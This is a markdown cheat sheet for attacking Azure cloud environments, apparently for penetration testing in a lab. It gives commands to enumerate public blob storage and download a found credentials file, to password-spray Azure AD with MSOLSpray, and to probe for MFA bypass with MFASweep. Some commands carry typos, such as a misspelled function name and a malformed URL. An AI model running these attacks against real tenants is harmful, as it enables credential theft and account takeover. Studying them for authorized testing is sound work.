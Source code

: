 # Cloud exploitation

## Table of contents

##### ➤ AZURE CSP

Public enumeration

* [1. Enumerate storage account](#enumerate-storage-account)

Password attacks

* [1. Guessing Azure AD credentials using MSOLSpray](#Guessing-Azure-AD-credentials-using-MSOLSpray)
* [2. Identify conditional access policy bypass using MFASweep](#Identify-conditional-access-policy-bypass-using-MFASweep)


##### ➤ AWS CSP



``` ```
``` ```
## Enumerate storage account

A storage account is way of hadnling data in the cloud and are compose to the following sub-services :

| sub-services | Description | DNS records |
| :---: | --- | --- |
| Blob service | General HTTP/HTTPS file hosting | xxx.blob.core.windows.net |
| File service | Attached data storage (SMB/NFS) | xxx.file.core.windows.net |
| Table service | NoSQL semi-strctured datasets | xxx.table.core.windows.net |
| Queue service | HTTP/HTTPS message storage | xxx.queue.core.windows.net |


##### Blob storage

The blob storage is a containers/folders that can be used to store data/object and can be accssed through HTTP/HTTPS endpoint. The URL address is a combination of the storage account name, the conatiner and the object name
```
#Storage account name : kiosecstorage
#Container name : public
#File : readme.txt

https://kiosecstorage.blob;core.windows.net/public/readme.txt
```

The containers can have different public access level configuration :
- **Private** : Does not allow anonymous access. Access needs to be authenticated.
- **Blob** : Allow anonymous access to a know object (file into the container). In this case, an attacker needs to know the full filenames (IDOR attack requiered or fuzzing)
- **Container/Public** : Allows the container file to be listed and accessed anonymously.

***Important note :*** The storage account have also a public access level. If the container public access is public but the storage account have a non-public access, the container cannot be accessed anonymously.

#####  ➤  Detect file in container having "blob" public access level

```
gobuster dir -u https://kiosecstorage.blob.core.windows.net/public/ -w /usr/share/wordlists/dirb/big.txt -t 30 -e -k -x .html,.php,.asp,.aspx,.htm,.xml,.json,.jsp,.pl,.txt,.docs,.docx,.yaml
```

#####  ➤  Identify misconfigured blob containers using MicroBurst (Powershell)

```
# Import module
Import-Module .\MicroBurst.psm1

# Detect storage misconfigured with the specific storage account name kiosecstorage
Invoke-EnumerateAzure Blobs -Base kiosecstorage

# Detect storage misconfigured with custom container list (customcontainer.txt) and storage account name (kiosecstorage)
Invoke-EnumerateAzure Blobs -Base kiosecstorage -Folders .\customcontainer.txt

# Download the contents of the objects detected (ex: credentials.txt)
Invoke-WebRequest -Uri "https://kiosecstorage.blob.core.windows.net/public/credentials.txt" --OutFile "credentials.txt"
```

#####  ➤  Read container having "container/public" public access level

Add "/?restype=container&comp=list"

```
https://kiosecstorage.blob.core.windows.net/public/?restype=container&comp=list
```



``` ```
``` ```
## Guessing Azure AD credentials using MSOLSpray

MSOLSpray takes a list of user and account a list of password and try them against the Azure authentication portal. 

##### Install MSOLSpray
```
git clone https://github.com/dafthack/MSOLSpray.git
```

##### Execute MSOLSpray
```
cd .\MSOLSpray\
Import-Module .\MSOLSpray.ps1

Invoke-MSOLSray -UserList .\userlist.txt -Password myweakpassword123 
```

``` ```
``` ```
## Identify conditional access policy bypass using MFASweep

MFASweep allows to detect the conditional access policy bypasses against a compromised user accounts.

##### Install MFASweep
```
git clone https://github.com/dafhazck/MFASweep.git
```

##### Execute MFASweep
```
cd .\MFASweep\
Import-Module .\MFASweep.ps1

Invoke-MFASweep -Username kiosec@myazurelab.com -Password myweakpassword123
```


